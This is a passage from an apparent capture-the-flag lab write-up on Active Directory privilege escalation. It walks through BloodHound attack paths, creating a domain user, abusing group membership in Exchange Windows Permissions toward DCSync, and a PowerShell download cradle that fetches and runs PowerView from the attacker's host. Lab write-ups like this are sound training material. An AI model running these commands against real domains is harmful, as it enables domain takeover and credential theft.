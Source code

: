 So we can login as "Sebastien" we will need to add him to the local group "`Remote Management Users`"

-   Back in my "svc-alfresco" shell I add "Sebastien" to the "Remote Management Users" local group so he can login:
    -   `net localgroup "Remote Management Users" sebastien /add`
    -   {{< figure src="/ox-hugo/2024-11-14-160552_.png" >}}

-   After some enumerating there appears to be nothing interesting "Sebastien" has access to on the host:
    -   {{< figure src="/ox-hugo/2024-11-14-160713_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}

### Finding Another Privilege Escalation Path In Bloodhound: {#finding-another-privilege-escalation-path-in-bloodhound}

-   Re-examining my bloodhound results the attack path seems very clear now. (woops) We have a straight shot to the root domain object from "svc-alfresco"
-   "svc-alfresco" has inherited/nested membership to the `Account Operators` group &amp; as the Account Operators group has `GenericAll` over `EXCHANGE WINDOWS PERMISSIONS` group, we in turn have `GenericAll` privileges over this group, much like we did with "sebastien"
    -   {{< figure src="/ox-hugo/2024-11-14-162655_.png" >}}

-   **This gives us a few different attack paths**:
    -   The first and easiest is adding a new user to the "Exchange Windows Permission" group and then granting them DCSync privileges over the root domain object to dump NTDS.dit.
    -   The second is in beyond root where we can dump it with svc-alfresco, however I was only able to perform this once.


### Intended Path To Root Adding A User &amp; Granting Them DCSync Privileges: {#intended-path-to-root-adding-a-user-and-granting-them-dcsync-privileges}

As we have `GenericWrite` over the group "EXCHANGE WINDOWS PERMISSIONS" we can add any users to the group &amp; then in turn grant them DCSync privileges:

1.  Add a user to the groups from svc-alfresco shell via evil-winrm:
    -   `net user bloodstiller bl00dst1ll3r! /add /domain`
    -   {{< figure src="/ox-hugo/2024-11-14-141937_.png" >}}

2.  Add to the user to the group "Exchane Windows Permissions":
    -   `net group "Exchange Windows Permissions" bloodstiller /add`
    -   {{< figure src="/ox-hugo/2024-11-14-142013_.png" >}}

3.  Give the user remote management access by adding them to the group "Remote Management Users":
    -   `net localgroup "Remote Management Users" bloodstiller /add`
    -   {{< figure src="/ox-hugo/2024-11-14-142310_.png" >}}
    -   This part is not necessary, however I want to use mimikatz so want remove access.

4.  To modify the ACL of the user we have created, we need to use PowerView:
    -   To do this I will use a download cradle to load directly into memory for more information on download cradles see my +deep-dive+: <https://bloodstiller.com/articles/understandingdownloadcradles/>
    -   Stand up python server:
        -   `python -m http.server 9000`
    -   Load into memory:
        -   `iex(new-object net.webclient).downloadstring('http://10.10.14.99:9000/PowerView.ps1')`
        -   {{< figure src="/ox-hugo/2024-11-15-123938_.png" >}}
